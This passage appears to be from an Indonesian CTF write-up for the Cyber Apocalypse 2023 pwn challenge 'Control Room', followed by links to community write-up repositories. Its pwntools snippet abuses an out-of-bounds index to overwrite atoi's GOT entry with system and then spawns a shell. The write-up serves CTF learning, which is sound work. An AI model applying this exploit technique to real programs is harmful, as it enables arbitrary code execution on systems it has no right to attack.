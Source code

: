 ```python

p.sendline(b'5') # change role to techinician
p.sendline(b'1')

p.sendline(b'1') # have bug oob, out of band
p.recvuntil(b'Engine number [0-3]:')
p.sendline(b'-8') # atoi got is - 8 * 0x10 from engine
p.sendlineafter(b'Thrust:', f'{libc.symbols.system}'.encode())
p.sendlineafter(b'Mixture ratio:', f'123'.encode()) # rubish
p.sendline(b'y')

p.sendline(b'sh') # size four so sh not /bin/sh
p.interactive()

# referece from this great writeup
# https://chovid99.github.io/posts/cyber-apocalypse-2023-pwn/#control-room
```

penjelasan dan solver lebih lengkap diambil dari writeup : 
https://chovid99.github.io/posts/cyber-apocalypse-2023-pwn/#control-room

# Our Community Member Write Up

1. Daffainfo [https://github.com/daffainfo/ctf-writeup/tree/main/Cyber Apocalypse 2023 The Cursed Mission](https://github.com/daffainfo/ctf-writeup/tree/main/Cyber%20Apocalypse%202023%20The%20Cursed%20Mission)
    
    List:
    
    1. Alien Cradle
    2. Ancient Encodings
    3. Critical Flight
    4. Hijack
    5. Persistance
    6. Plaintext Treasure
    7. Restricted
    8. Small Steps
    9. Trapped Source
    10. nehebkaus trap
2. Kaelanalysis [https://github.com/maulvialf/CTF-Writeups/tree/main/2023/htb-apocalypse-2023/](https://github.com/maulvialf/CTF-Writeups/tree/main/2023/htb-apocalypse-2023/)
    
    List: 
    
    ##Rev
    
    1. Cshells
    2. Hunting License
    3. Shattered Table
    4. Neddle Haystack
    5. Cavesystem
    6. Alien Saboteur
    7. Somewhat Linear
    8. Gimmick DSP
    9. Vessel Cartographer
    10. Analogue Signal Processing
    